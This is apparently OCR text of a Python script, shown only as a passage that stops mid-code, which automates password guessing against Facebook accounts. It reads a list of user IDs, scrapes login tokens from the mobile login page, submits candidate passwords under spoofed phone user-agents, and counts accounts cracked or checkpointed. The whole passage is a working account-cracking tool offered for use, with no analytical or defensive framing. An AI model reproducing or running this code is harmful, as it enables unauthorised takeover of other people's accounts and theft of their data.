 
class __xxx__:
    def __init__(self):
        self.id = []
    def sarfrazx(self,id):
        os.system("clear")
        print(logo)
        self.cnt = input(yellow+'Put File Name : ')
        self.id = open(self.cnt).read().splitlines()
        os.system('clear')
        print(logo)
        print("")
        ___worldwide___ = ('y')
        if ___worldwide___ in ('yes','Yes','Y', 'y'):
            self.__pler__()
        else:
            print(' [!] Choose Correct One');
            self.sarfrazx(id)
    def __metode__(self, user, __chi__, cebok):
        global ok,cp,loop
        sys.stdout.write(f"\r \x1b[1;93m[MAHADI-CHECK] {loop}|{len(self.id)} [ok][{len(ok)}] [cp][{len(cp)}] ")
        sys.stdout.flush()
        try:
            for pw in __chi__:
                pw = pw.lower()
                session=requests.Session()
                header = {
                    "Host":cebok,
                    "upgrade-insecure-requests":"1",
                    "user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+",
                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
                    "dnt":"1",
                    "x-requested-with":"mark.via.gp",
                    "sec-fetch-site":"same-origin",
                    "sec-fetch-mode":"cors",
                    "sec-fetch-user":"empty",
                    "sec-fetch-dest":"document",
                    "referer":"https://m.facebook.com/",
                    "accept-encoding":"gzip, deflate br",
                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"
                }
                r = session.get(f"https://{cebok}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", headers=header)
                das = {
                    "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1),
                    "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1),
                    "uid":user,
                    "flow":"login_no_pin",
                    "pass":pw,
                    "next":"https://developers.facebook.com/tools/debug/accesstoken/"
                }
                header1 = {
                    "Host":cebok,
                    "cache-control":"max-age=0",
                    "upgrade-insecure-requests":"1",
                    "origin":"https://"+cebok,
                    "content-type":"application/x-www-form-urlencoded",
                    "user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36",
                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",